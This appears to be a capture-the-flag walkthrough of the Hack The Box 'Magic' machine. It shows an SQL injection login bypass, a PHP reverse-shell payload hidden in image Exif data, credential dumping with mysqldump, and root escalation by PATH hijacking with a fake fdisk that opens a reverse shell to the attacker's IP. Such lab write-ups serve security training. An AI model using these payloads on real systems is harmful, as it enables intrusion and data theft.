


Let’s get right into it.

#Reconnaissance
For recon, we start we NMAP to see what ports are open. The result reveal 2 ports.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From previous experience, I know that we would have to exploit the HTTP server at port 80 and maybe we can ssh to the box later after we have a user’s credential (or in some cases after we add our ssh public key to the server).

Navigating to the page at port 80, you will see that it is some form of an image hosting platform. The homepage indicates that you can upload images if you login.


From here you can navigate to the login page. You will be presented with a form for username and password. This form is vulnerable to SQL injection; this will be our way in.



With the username set to the SQL command for injection (**‘ OR 1=1;**), we can pass anything for password. You will be presented with a page to upload an image.



Now we can start thinking about what can we give to the server that would allow us to run commands such as initiating a reverse shell. You can try uploading random files but you will quickly realize that the server only accepts the following

> Sorry, only JPG, JPEG & PNG files are allowed.

You might think, what if I upload a php file with the “.jpg” file extension? That is also not allowed and you will get the following error

> What are you trying to do there?

Now the conversation becomes, how can I pass a legit image file that contains code that can be executed by the server. Since we know this is a php web-server, this code has to be php code.

---

#Foothold
Now that we have a goal in mind, it is time to get to work. Searching on the internet you can see there is already a tool that allows us to embed data into images; [ExifTool](https://exiftool.org/).

> ExifTool is a platform-independent Perl library plus a command-line application for reading, writing and editing meta information in a wide variety of files

The php code that we will be adding to the image is a follows

```
<?php echo 'Initiating Shell'; system(\"nohup bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'\");__halt_compiler();?>
```

This code will connect back to the ip address hardcode facilitating a reverse shell. With this in hand, we can overwrite one of the standard Exif tag of the image; **DocumentName**.

```
exiftool -DocumentName="<h1>Test<br><?php echo 'Initiating Shell'; system(\"nohup bash -c 'bash -i >& /dev/tcp/10.10.14.5/1337 0>&1'\");__halt_compiler();?></h1>" exploit-image.jpeg
```

This will create a copy of the original image (named exploit-image.jpeg_original) and edit the Exif tag of the image. This image will pass the upload validation process but when you navigate to the image, it will not execute. This is because when we request the page the server only recognize the file as an image. If we want it to be interpreted as a php file, we will need to add the .php extension to the file as follows “**exploit-image.php.jpeg**”.

This will pass the image validation and when we request the page, the server will interpret this as a valid php file first before it try to parse it as a image.(it contains php code — see with strings exploit-image.php.jpeg). When evaluated as a PHP file we get the shell initiated. To trigger the shell, navigate to the following endpoint.

> http://10.10.10.185/images/uploads/exploit-image.php.jpeg

Boom! we have shell.

```
kali@kali:~/HTB/Magic$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 33868
bash: cannot set terminal process group (1168): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/Magic/images/uploads$
```

---

#Enumeration
Poking around, you will find a db.php file in “/var/www/Magic”. This file contains the credentials to the database.

```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

The MySQL client is not installed on the box so we have to find another way to view the contents of the database. Luckily we have “mysqldump” installed. With this we can dump the contents of the DB to a file.

```
www-data@ubuntu:/var/www/Magic/images/uploads$ mysqldump -u theseus -p Magic > db.dump
<es/uploads$ mysqldump -u theseus -p Magic > db.dump
Enter password: iamkingtheseus
```

Since this file is in the “images/uploads” we can easily download it to inspect it. Or you can just run **strings** against the dump. This will reveal the password of a admin user.

```
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
```

Checking the home directory you will see there is only one user.

```
cd /home
www-data@ubuntu:/home$ ls
ls
theseus
```

---

#User Privesc
At this point you have 2 potential password for user privesc. Before we can switch user, we have to get a full TTY shell.

```
www-data@ubuntu:/home$ su theseus
su theseus
su: must be run from a terminal
www-data@ubuntu:/home$ /usr/bin/script -qc /bin/bash /dev/null
/usr/bin/script -qc /bin/bash /dev/null
```

Now you can get the user flag

```
www-data@ubuntu:/home$ su theseus
su theseus
Password: Th3s3usW4sK1ng
theseus@ubuntu:/home$ cd theseus
cd theseus
theseus@ubuntu:~$ ls -al
ls -al
total 84
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 .
drwxr-xr-x  3 root    root    4096 Oct 15  2019 ..
lrwxrwxrwx  1 theseus theseus    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 theseus theseus  220 Oct 15  2019 .bash_logout
-rw-r--r--  1 theseus theseus   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 theseus theseus 3771 Oct 15  2019 .bashrc
drwxrwxr-x 13 theseus theseus 4096 Mar 13 05:57 .cache
drwx------ 13 theseus theseus 4096 Oct 22  2019 .config
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Desktop
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Documents
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Downloads
drwx------  3 theseus theseus 4096 Oct 21  2019 .gnupg
-rw-------  1 theseus theseus 7334 Apr 15 23:50 .ICEauthority
drwx------  3 theseus theseus 4096 Oct 21  2019 .local
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Music
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Pictures
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Public
drwx------  2 theseus theseus 4096 Oct 21  2019 .ssh
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Templates
-r--------  1 theseus theseus   33 Aug 21 20:23 user.txt
drwxr-xr-x  2 theseus theseus 4096 Oct 22  2019 Videos
```

---

#More Enumeration
At this point you can add a public key to “~/.ssh/authorized_keys” so that you can ssh to the box directly.

For enumeration at the point I chose LinPeas. Two interesting tidbits were revealed. The first,

```
[+] Readable files belonging to root and readable by me but not world readable
-rwsr-x--- 1 root users 22040 Oct 21 2019 /bin/sysinfo
```

For this we can try to read the content of “sysinfo” to see if we can tamper with it; more on this later. Also we can execute this file with its sticky bit. This means that “sysinfo” runs as root; this is good news for us. The second

```
[+] PATH
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#usdpath
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
New path exported: /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

This reveal that we can change the load path. This makes it possible to hijack the load path and replace a legit executable with a rogue one.

When you view the content of sysinfo, you will see it executes some commands by just the name and not the full path.

```
strings /bin/sysinfo
====================Hardware Info====================
lshw -short
====================Disk Info====================
fdisk -l
====================CPU Info====================
cat /proc/cpuinfo
====================MEM Usage=====================
```

Since a full path is not used, it is up to the OS to resolve what executable is used. This is the main use of the PATH variable. The OS looks for the executable in each directory listed in path.

We can abuse this coupled with the fact that we can add a path to present a phony executable for “fdisk”

---

#Root Privesc
From here on, we can create an executable with the name “fdisk”. In our case this executable will create a reverse shell.

```
theseus@ubuntu:/var/tmp$ cat fdisk
#!/bin/bash
nohup bash -c 'bash -i >& /dev/tcp/<ip address>/<port> 0>&1'
theseus@ubuntu:/var/tmp$ chmod +x fdisk
```

Then we manipulate the path to include the directory that contains the phony “fdisk”. In this case append “/var/tmp” to the path.

```
theseus@ubuntu:/var/tmp$ which fdisk
/sbin/fdisk
theseus@ubuntu:/var/tmp$ export PATH=$(pwd):$PATH
theseus@ubuntu:/var/tmp$ which fdisk
/var/tmp/fdisk
```

All that is left is to execute “sysinfo” and then get a shell.

```
theseus@ubuntu:/var/tmp$ sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/1/2                         memory     512KiB L2 cache
...
```

Boom, we have another shell.

```
kali@kali:~/HTB/Magic$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.185] 33876
root@ubuntu:/var/tmp#
root@ubuntu:/var/tmp# ls -al /root
ls -al /root
total 44
drwx------  5 root root 4096 Apr 16 00:23 .
drwxr-xr-x 24 root root 4096 Mar 20 15:27 ..
lrwxrwxrwx  1 root root    9 Oct 21  2019 .bash_history -> /dev/null
-rw-r--r--  1 root root   15 Oct 21  2019 .bash_profile
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Oct 21  2019 .cache
drwx------  3 root root 4096 Oct 21  2019 .gnupg
-r--------  1 root root 1085 Oct 21  2019 info.c
drwxr-xr-x  3 root root 4096 Oct 21  2019 .local
-rw-------  1 root root   18 Mar 17 08:57 .mysql_history
-r--------  1 root root   33 Aug 21 20:23 root.txt
-rw-r--r--  1 root root   66 Apr 16 00:24 .selected_editor
```

That’s all for this one, till the next.


